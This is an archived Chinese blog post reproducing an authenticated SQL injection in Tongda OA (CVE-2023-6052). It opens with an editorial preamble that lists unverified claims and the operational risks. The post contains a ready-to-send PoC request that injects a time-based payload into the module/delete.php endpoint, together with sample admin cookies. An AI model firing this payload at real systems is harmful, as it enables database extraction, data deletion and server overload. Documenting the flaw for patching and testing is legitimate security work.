



# 【漏洞复现】通达OA SQL注入漏洞（CVE-2023-6052）

## 编号角色补核（2026-10-04）

本次只确认编号在本文主题中的主编号／引用角色；版本、修复、截图及其他技术主张仍按下方具体待核说明阅读。旧字段和归档正文保持原值，较早的角色待核说明保留为历史记录。

核对依据：[CNA 记录](https://cveawg.mitre.org/api/cve/CVE-2023-6052)。这些记录支持编号／产品对应关系或编号状态，不替代本篇原始出处。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：通达OA6052 module/delete
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需要登录但使用admin实例不说明最小权限；2017与11.10版本序列应映射发行体系；只截图无基线文字，修复缺官方版本来源
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 需要登录但使用admin实例不说明最小权限
2. 2017与11.10版本序列应映射发行体系
3. DELETE接口有业务删除副作用并笛卡尔积延迟高负载，不能当无损
4. 右下角看延时误放请求body
5. 只截图无基线文字，修复缺官方版本来源

### 操作风险

DELETE接口有业务删除副作用并笛卡尔积延迟高负载，不能当无损

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

紫色皓月  皓月的笔记本   2023-11-26 23:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
CVE-2023-6052  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA < 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录。  
  
POC：  
```
GET /general/system/censor_words/module/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=f6098a7b; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; SID_66=1ca61957; PHPSESSID=jrtih3adqjo2u52mn06q2f03i4
Upgrade-Insecure-Requests: 1

右下角看延时
```  
  
  
  
  
  
  
  
  
  
  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
